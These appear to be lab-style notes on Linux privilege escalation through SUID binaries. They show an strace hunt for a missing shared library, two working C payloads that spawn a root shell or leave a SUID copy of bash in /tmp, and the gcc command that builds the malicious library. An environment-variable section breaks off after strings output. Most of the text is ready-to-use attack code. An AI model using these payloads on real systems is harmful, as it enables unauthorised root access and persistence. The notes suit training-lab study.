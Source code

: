 >Note: If you encounter permission denied error then try to give permission with current user +x
### Known exploits of SUID binary 
/usr/local/bin/suid-so
/usr/local/bin/suid-env
/usr/local/bin/suid-env2
/usr/sbin/exim-4.84-3
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

*As you can see `exim-4.48.3` is a suid having a service specified so we will search for the exploit and boom*

### Shared Object Injection
Hunt: `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
Output:
open("/lib/libc.so.6", O_RDONLY)        = 3
open("==/home/user/.config/libcalc.so==", O_RDONLY) = -1 ENOENT (No such file or directory)

*So we can see that libcalc.so cannt found so we will make it and then obtain shell*
1. Make libcalc.c
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}

```
or 
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
1. Execute ==gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c==
2. Now again execute suid-so.

### Environment Variables
Hunt: ``strings /usr/local/bin/suid-env``
Output:
```
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
```